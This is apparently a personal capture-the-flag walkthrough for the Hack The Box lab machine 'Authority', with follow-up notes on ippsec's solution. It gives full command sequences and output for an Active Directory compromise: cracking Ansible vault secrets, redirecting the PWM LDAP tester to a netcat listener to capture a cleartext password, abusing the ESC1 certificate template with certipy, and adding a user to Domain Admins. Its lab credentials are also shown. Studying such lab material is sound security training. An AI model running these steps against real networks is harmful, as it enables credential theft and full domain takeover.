

=
tags: #windows #active-directory #ad #adcs #esc1 #ldap

==

* nmap
  #+begin_src bat
  sudo nmap -sV -sC -oA nmap/authority.basic 10.129.229.56

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-18 15:53:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-18T15:54:19+00:00; +4h19m20s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-02-18T15:54:19+00:00; +4h19m21s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-02-18T15:54:19+00:00; +4h19m20s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-02-18T15:54:19+00:00; +4h19m21s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21                    
|_Not valid after:  2024-08-09T23:13:21                    
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found                                    
|_http-server-header: Microsoft-HTTPAPI/2.0                
8443/tcp open  ssl/http      Apache Tomcat (language: en)  
| ssl-cert: Subject: commonName=172.16.2.118               
| Not valid before: 2026-02-16T15:51:28                    
|_Not valid after:  2028-02-19T03:29:52                    
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_ssl-date: TLS randomness does not represent time         
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows
  #+end_src
* smb
  #+begin_src 
  nxc smb 10.129.229.56
SMB  AUTHORITY   [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
  #+end_src
  try null session
  #+begin_src bat
  nxc smb 10.129.229.56 -u '' -p '' --shares

SMB  AUTHORITY        [-] Error enumerating shares: STATUS_ACCESS_DENIED
  #+end_src
  check password policy
  #+begin_src bat
  nxc smb 10.129.229.56 -u '' -p '' --pass-pol --export $(pwd)/passpol.txt
  #+end_src
  returns nothing
** enum4linux
  #+begin_src bat
  enum4linux 10.129.229.56 -A -C
  #+end_src
  finds nothing; NT_STATUS_ACCESS_DENIED for nearly everything.
* port 8443
  hosts a [[https://github.com/pwm-project/pwm][pwm password manager]]; in the config page, we see a potential username and ip
  #+begin_src 
  CN=svc_pwm,CN=Users,DC=htb,DC=corp (default) 	March 26, 2023 at 3:20:14 PM  10.129.204.183
  #+end_src
* try smb as guest user
  #+begin_src 
  $ nxc smb 10.129.229.56 -u 'guest' -p '' --shares                         

SMB  AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB  AUTHORITY        [+] authority.htb\guest: 
SMB  AUTHORITY        [*] Enumerated shares
SMB  AUTHORITY        Share           Permissions     Remark
SMB  AUTHORITY        -----           -----------     ------
SMB  AUTHORITY        ADMIN$                          Remote Admin
SMB  AUTHORITY        C$                              Default share
SMB  AUTHORITY        Department Shares                 
SMB  AUTHORITY        Development     READ            
SMB  AUTHORITY        IPC$            READ            Remote IPC
SMB  AUTHORITY        NETLOGON                        Logon server share 
SMB  AUTHORITY        SYSVOL                          Logon server share 
  #+end_src
  ok, so we have =READ= access over the =Development= share
* access share
  #+begin_src bat
  smbclient -U guest //10.129.229.56/Development
  #+end_src
  turns out ther's a directory named =Automation= which contains a directory named =Ansible= with
  multiple subdirs; let's get everything:
  #+begin_src bat
  smb: \> recurse ON
  smb: \> prompt OFF    
  smb: \> mget *
  #+end_src
* main.yml
  digging around, we come across this file inside the =PWM= subdirectory inside =Ansible= which
  is an ansible vault containing encrypted passwords;
  #+begin_src bat
  pwm_run_dir: "{{ lookup('env', 'PWD') }}"

  pwm_hostname: authority.htb.corp
  pwm_http_port: "{{ http_port }}"
  pwm_https_port: "{{ https_port }}"
  pwm_https_enable: true

  pwm_require_ssl: false

  pwm_admin_login: !vault |
  $ANSIBLE_VAULT;1.1;AES256
  32666534386435366537653136663731633138616264323230383566333966346662313161326239
  6134353663663462373265633832356663356239383039640a346431373431666433343434366139
  35653634376333666234613466396534343030656165396464323564373334616262613439343033
  6334326263326364380a653034313733326639323433626130343834663538326439636232306531
  3438

  pwm_admin_password: !vault |
  $ANSIBLE_VAULT;1.1;AES256
  31356338343963323063373435363261323563393235633365356134616261666433393263373736
  3335616263326464633832376261306131303337653964350a363663623132353136346631396662
  38656432323830393339336231373637303535613636646561653637386634613862316638353530
  3930356637306461350a316466663037303037653761323565343338653934646533663365363035
  6531

  ldap_uri: ldap://127.0.0.1/
  ldap_base_dn: "DC=authority,DC=htb"
  ldap_admin_password: !vault |
  $ANSIBLE_VAULT;1.1;AES256
  63303831303534303266356462373731393561313363313038376166336536666232626461653630
  3437333035366235613437373733316635313530326639330a643034623530623439616136363563
  34646237336164356438383034623462323531316333623135383134656263663266653938333334
  3238343230333633350a646664396565633037333431626163306531336336326665316430613566
  3764   
  #+end_src
  however, attempts to crack it failed for some reason - well, it didn't fail but produced an
  incorrect result - the same result for each of the passwords here.
  #+begin_src bat
  $ ansible2john vault1 > vault.hash
  $ john vault.hash --wordlist=/usr/share/wordlists/rockyou.txt
  $ john vault.hash --show

vault1:!@#$%^&*
  #+end_src
** OFFICIAL SOLUTION
   ok turns out, this is indeed the password. and we need to decrypt the strings with
   ansible-vault, supplying the cracked password
** ansible-vault
   install in the general env with
   #+begin_src bat
   pip install ansible-vault
   #+end_src
   then, we can decrypt each of the strings above which have been saved into separate files,
   and have the spaces removed (same files as the ansible2john input); =ansible-vault= decrypts
   them in-place:
   #+begin_src 
   $ ansible-vault decrypt vault1            
   Vault password: 
   Decryption successful

   $ cat vault1                        
svc_pwm

   $ ansible-vault decrypt vault2      
   Vault password: 
   Decryption successful

   $ cat vault2
pWm_@dm!N_!23

   $ ansible-vault decrypt vault3 
   Vault password: 
   Decryption successful

   $ cat vault3
DevT3st@123
   #+end_src
** try and dig around the application for some credentials
   use the admin password to log in to the application; downloaded some config xml but it
   doesn't look helpful.
* OFFICIAL SOLUTION
  ok, this involves some LDAP stuff we haven't really learned I guess. inside the
  =edit configuration= option in the PWM application, we can see a button for editing the LDAP
  connection; from the solution pdf:
  #+begin_src 
  Sometimes, it is possible to retrieve cleartext credentials by tricking the LDAP connection
  tester to connect to your own Netcat listener. Since it is using LDAPS, however, we will
  need to try editing the existing LDAP URL ldaps://authority.htb.corp:636 to use ldap:// and
  port 389 , pointing it to our attacking machine's host IP instead
  #+end_src
  once we edit the connection url config to point to our ip and port and change ldaps to ldap,
  we get a connection on our nc listener.
  #+begin_src bat
  $ nc -lvnp 389                                                          

listening on [any] 389 ...
connect to [10.10.14.10] from (UNKNOWN) [10.129.229.56] 54702
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!
  #+end_src
  now we can use this credential to log in via evil-winrm
  #+begin_src bat
  $ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

  ,*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
8297849f26eaab0a3ad39a8da2c6bd75
  #+end_src
* privesc
** bloodhound
   we need to use the =--ldaps= flag.
   #+begin_src bat
   rusthound-ce --ldaps -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -d 'authority.htb' -c All --zip
   #+end_src
   here are the outbound object controls of =svc_ldap=
   #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-02-21_14-05.png @ 2026-02-21 14:06:28
   

   the suggested attack path from bloodhound is:
   #+begin_src bat
   certipy req -u USER@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
   #+end_src
   so let's [[file:d:/code/htb/labs/fluffy/fluffy.org::*OFFICIAL SOLUTION][find the vulnerable template]] like in the =fluffy= box.
   #+begin_src bat
   $ certipy-ad find -username svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r' -dc-ip 10.129.229.56 -vulnerable -ldap-port 636

[-] LDAP NTLM authentication failed: {'result': 49, 'description': 'invalidCredentials', 'dn': '', 'message': '8009030C: LdapErr: DSID-0C090726, comment: AcceptSecurityContext error, data 52e, v4563\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
[-] Got error: Kerberos authentication failed: {'result': 49, 'description': 'invalidCredentials', 'dn': '', 'message': '8009030C: LdapErr: DSID-0C090726, comment: AcceptSecurityContext error, data 52e, v4563\x00', 'referrals': None, 'saslCreds': None, 'type': 'bindResponse'}
[-] Use -debug to print a stacktrace
   #+end_src
   ok, missed the =!= at the end of the password; leaving this in as a reminder that sometimes,
   the error messages *are* in fact accurate;
   #+begin_src bat
   $ certipy-ad find -username svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -ldap-port 636

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260220044822_Certipy.txt'
[*] Wrote text output to '20260220044822_Certipy.txt'
[*] Saving JSON output to '20260220044822_Certipy.json'
[*] Wrote JSON output to '20260220044822_Certipy.json'
    #+end_src                                                       
   the output lists an ESC1 vuln in the =CorpVPN= template:
   #+begin_src js
   "[!] Vulnerabilities": {
        "ESC1": "Enrollee supplies subject and template allows client authentication."
      }
   #+end_src
* exploit ESC1
** request certificate
   #+begin_src bat
   $ certipy-ad req -username svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -ca AUTHORITY-CA -template CorpVPN -ldap-port 636

   [*] Requesting certificate via RPC
   [*] Request ID is 2
   [-] Got error while requesting certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
   Would you like to save the private key? (y/N): y
   [*] Saving private key to '2.key'
   [*] Wrote private key to '2.key'
   [-] Failed to request certificate
   #+end_src
   ok what's going on? the =-vulnerable= output describes =AUTHORITY.HTB\Domain Computers= group
   is part of =User Enrollable Principals=;
   acc. chatgpt, it turns out we need computer creds rather than a user's creds; so, we need
   to add a computer to the domain for which we can use impacket's =addcomputer=:
*** impacket-addcomputer
    #+begin_src bat
    $ impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -computer-name TESTPC$ -computer-pass Passw0rd123!

[*] Successfully added machine account TESTPC$ with password Passw0rd123!.
    #+end_src
*** request the cert
    #+begin_src bat
    certipy-ad req -u 'TESTPC$' -p 'Passw0rd123!' -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.129.229.56
    #+end_src
*** login as admin
    #+begin_src bat
    certipy-ad auth -pfx administrator.pfx -username administrator -domain authority.htb -dc-ip 10.129.229.56

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Found multiple identities in certificate
[*] Using identity: UPN: administrator@authority.htb
[*] Using principal: 'administrator@authority.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
    #+end_src
    this doesn't work for whatever reason, so chatgpt suggested using an ldap shell instead
    also, nxc ran into a similar issue
    #+begin_src bat
    $ nxc ldap 10.129.229.56 -u administrator --pfx-cert administrator_authority.pfx

LDAP        10.129.229.56   389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb) (signing:Enforced) (channel binding:Never) 
LDAP        10.129.229.56   389    AUTHORITY        [-]  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)" 
    #+end_src
    ok, turns out the reason is:
    #+begin_src 
    The error "KDC has no support for PADATA type" indicates that the Key Distribution Center
    (KDC) does not support the pre-authentication data type being requested, often due to a
    missing or misconfigured certificate for smart card logon. This can occur if the domain
    controller's certificate lacks the necessary Extended Key Usage (EKU) for smart card
    authentication.
    #+end_src
*** ldap shell
    we can add the =svc_ldap= user to the =Domain Admins= group
    #+begin_src bat
    $ certipy-ad auth -pfx administrator_authority.pfx -ldap-shell -dc-ip 10.129.229.56 -domain authority.htb

[*] Certificate identities:
[*]     SAN UPN: 'administrator@authority.htb'
[*]     SAN DNS Host Name: 'authority.htb'
[*] Connecting to 'ldaps://10.129.229.56:636'
[*] Authenticated to '10.129.229.56' as: 'u:HTB\\Administrator'
Type help for list of commands

# whoami
u:HTB\Administrator

# add_user_to_group svc_ldap "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK
    #+end_src
*** evil-winrm as svc_ldap
    #+begin_src bat
    ,*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd C:\Users
    ,*Evil-WinRM* PS C:\Users> cd Administrator\Desktop
    ,*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
86590ba2f9410dfc64f1faafd2611671
    #+end_src
* ippsec
** dns
   saves all the variations inside the =hosts= file; says he likes doing all the combinations
   #+begin_src 
   <ip> authority.htb.corp htb.corp authority authority.htb 
   #+end_src
** nxc
   runs nxc immediately to confirm the domain and the name of the box, the first here is
   =authority.htb=, and the second is just =authority=; so, the fqdn is =authority.authority.htb=
   like we saw in one of the outputs
   #+begin_src
   $ nxc smb 10.129.229.56                                                   
  
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:None) (Null Auth:True)
   #+end_src
   add these to =hosts= file as well.
** smb
   turns out we don't have to use the username =guest=; any kind of invalid username will do,
   but it can't be blank, or it will be considered a null session.
** svc_ldap the real valid username
   something we missed; digs through the downloaded config file after logging in to the pwm
   interface and finds the =svc_ldap= username and tries to log in via nxc smb without a
   password; and we get a =STATUS_LOGON_FAILURE= meaning this is a valid username; the =svc_pwm=
   account however, does not lead to this which means it's not a real username
** use responder to get the ldap password
   listens for incoming ldap connections by default on port 389
   #+begin_src bat
   sudo responder -I tun0
   #+end_src
** check smb again after getting the creds
   turns out we now have access to the =Department Shares=
** use nxc to check if we can add computers
   we tried this from within the evil-winrm connection and the results were inconclusive,
   according to chatgpt:
   #+begin_src bat
   Get-ADDomain | fl MachineAccountQuota MachineAccountQuota

{}
   #+end_src
   using nxc:
   #+begin_src bat
   nxc ldap 10.129.229.56 -M maq -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
   #+end_src
   this returns =MachineAccountQuota: 10=
** addcomputer
   also adds the =-method LDAPS= flag
** requesting administrator certificate
   we could confirm =administrator= existed via nxc smb supplying a random password which should
   result in a =STATUS_LOGON_FAILURE= like earlier before requesting the admin certificate via
   certipy
** passthecert
   comes across the *KDC_ERR_PADATA_TYPE_NOSUPP* error and uses [[https://github.com/AlmondOffSec/PassTheCert][this tool]] to log in
   this requires us to split the ceritificate into separate key and cert files:
   #+begin_src bat
   certipy cert -pfx administrator.pfx -nocert -out administrator.key
   certipy cert -pfx administrator.pfx -nokey -out administrator.cert
   #+end_src
   uses these to get an =ldap shell= like we did; so i suppose this tool is no longer necessary.
